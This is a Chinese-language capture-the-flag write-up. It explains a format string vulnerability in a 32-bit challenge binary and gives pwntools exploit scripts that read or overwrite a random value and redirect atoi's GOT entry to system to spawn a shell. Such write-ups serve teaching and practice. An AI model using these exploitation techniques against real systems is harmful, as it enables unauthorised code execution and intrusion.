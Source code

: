 ## 0x001 程序分析

进入程序，查看main函数

![](1.png)

首先获取一个随机数，保存到地址 **0x804c044** 中，然后接收输入用户名和密码，将密码转化为整数，与刚获取的随机数进行比较，如果相同，则可以直接获取系统权限。

## 0x002 漏洞分析

首先看下两处接收输入的地方，使用的是 **read** 函数，先读取 0x63 个字符保存到 **buf** 中，然后读取 0xf 个字符保存到 **nptr** 中。

由于 **buf** 的长度为 100，**nptr** 的长度为 16，因此都没有超过其最大长度，不存在栈溢出漏洞。

再看下输出的地方，可以看到在使用 **printf** 输出了 **Hello,** 之后，直接使用 **printf(buf)** 打印了 **buf** 的内容，因此这里由于 **printf** 的错误使用，导致了格式化字符串漏洞。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](2.png)

开的栈溢出保护和 NX 不影响格式化字符串漏洞的利用。

首先获取输入内容在栈中相对于 **printf** 的偏移量。

![](3.png)

在程序运行后输入 **AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p**，可以从打印的内容中看到，出现 **0x41414141** 时，输入内容相对于 **printf** 的偏移量为10。

### 格式化字符串漏洞的利用方法1-任意地址读

解题思路一，通过任意地址读，将保存在地址 **0x804c044** 中的随机数读出来，然后作为 **password** 写入，这样输入的内容就与随机数相同，可通过校验。

已知保存随机数的地址为 **0x804c044**，偏移量为n，可构造payload如下：
```
payload = p32(0x804c044) + b"%10$s"

p.recvuntil("your name:")
p.sendline(payload)

p.recvuntil("Hello,")
p.recv(4)
random_data = u32(p.recv(4))

p.recvuntil("your passwd:")
p.sendline(str(random_data))
```

可成功获取随机数，之后再将获取到的内容作为输入，可校验成功。（本地测试运行可成功获取系统权限，但是远程不行。。。网上的说法是这个随机数是从服务器读入的，无法知道内容。。。）

### 格式化字符串漏洞的利用方法2-任意地址写

解题思路二，通过任意地址写，将 **0x804c044** 中的随机数修改为任意值，然后在输入相同的值，即可校验成功。

可构造payload如下：

```
payload = p32(0x804c044) + b"%10$n"
```

解题思路三，通过任意地址写，将后面调用到的函数的GOT地址修改为 **system** 函数的PLT地址，然后再结合后面输入需要的参数，即可执行 **system("/bin/sh", 0)** 命令获取权限。

可使用pwntools提供的格式化字符串漏洞利用函数 **fmtstr_payload** 构造payload，修改任意地址内容，使用方式如下：

```
payload = fmtstr_payload(10, {atoi_got:system_plt})
```

第一次改的时候没多想，直接把 **puts** 函数的GOT改了，然后发现参数 **（"/bin/sh", 0)** 传不过去。。。后来看了看才发现，**atoi** 函数的参数是通过输入传过去的，修改 **atoi** 函数的GOT地址才是正解。。。

### 最终EXP如下：

```
from pwn import *

context(os='linux', log_level='debug')

p = process("./pwn")
elf = ELF("./pwn")

atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]

payload1 = p32(0x804c044) + b"%10$n"
payload2 = fmtstr_payload(10, {0x804c044: 1})
payload3 = fmtstr_payload(10, {atoi_got: system_plt})

p.recvuntil("your name:")
p.sendline(payload3)

payload1 = b"4"
payload2 = b"1"
payload3 = b"/bin/bash\x00"

p.recvuntil("your passwd:")
p.sendline(payload3)

p.interactive()
```

## 0x004 格式化字符串漏洞利用小结

格式化字符串漏洞任意地址读取：

![](4.png)

> %x : 以十六进制形式打印栈中 **数据A** 的值

> %d : 以十进制形式打印栈中 **数据A** 的值

> %p : 以指针形式（十六进制）打印栈中 **数据A** 的值

> %s : 以字符串形式打印栈中 **数据B** 的值

通过 **%n$x** 可以打印栈中任意位置 **数据A** 的值，或者通过 **%n$s** 可以打印栈中任意位置 **数据B** 的值，n为偏移量控制栈的位置，一般 n>=1。

也可以使用 **地址+%n$s** 打印任意地址中保存的内容，此时 **n** 为输入内容相对于 **printf** 的偏移量。